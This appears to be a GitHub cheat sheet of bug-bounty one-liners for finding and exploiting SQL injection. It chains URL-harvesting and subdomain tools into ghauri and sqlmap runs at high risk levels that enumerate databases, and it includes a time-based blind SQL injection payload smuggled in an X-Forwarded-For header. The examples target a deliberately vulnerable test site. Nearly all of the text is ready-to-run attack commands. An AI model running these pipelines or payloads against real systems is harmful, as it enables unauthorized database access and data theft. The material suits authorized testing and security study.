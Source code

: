 # SQLis

### waymore, qsreplace, gf, ghauri

```
waymore -i "testphp.vulnweb.com" -n -mode U | qsreplace -a "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | gf sqli | sort -u | while read urls; do ghauri -u "$urls" --dbs --threads 2 --batch --level 2 | tee -a ghauri.sqli.txt; done
```

### waybackurls, gf, sqlmap

```
waybackurls | sort -u | gf sqli >> sqli; sqlmap -m sqli --batch --random-agent --level 3 --risk 3
```

### waybackurls, gf, sqlmap

```
waybackurls -no-subs "vulnweb.com" > wayback_urls_for_target.txt; python3 sqlidetector.py -f  wayback_urls_for_target.txt
```

### subfinder, httpx, waybackurls, gf, ghauri

```
subfinder -d vulnweb.com -recursive -all -silent | httpx | waybackurls | sort -u | gf sqli | sort -u | while read urls; do ghauri -u "$urls" --dbs --threads 2 --batch --level 2 | tee -a ghauri.sqli.txt; done
```



# Header based SQLis

```
subfinder -d vulnweb.com -recursive -all -silent | httpx -silent -H "X-Forwarded-For: 'XOR(if(now()=sysdate(),sleep(13),0))OR" -rt -timeout 20 -mrt '>13' | tee -a header_based_bsqli.txt
```




# Resources

https://github.com/Gerxnox/One-Liner-Collections

https://github.com/0xPugal/One-Liners

https://github.com/daffainfo/Oneliner-Bugbounty

https://github.com/thecybertix/One-Liner-Collections

https://github.com/dwisiswant0/awesome-oneliner-bugbounty
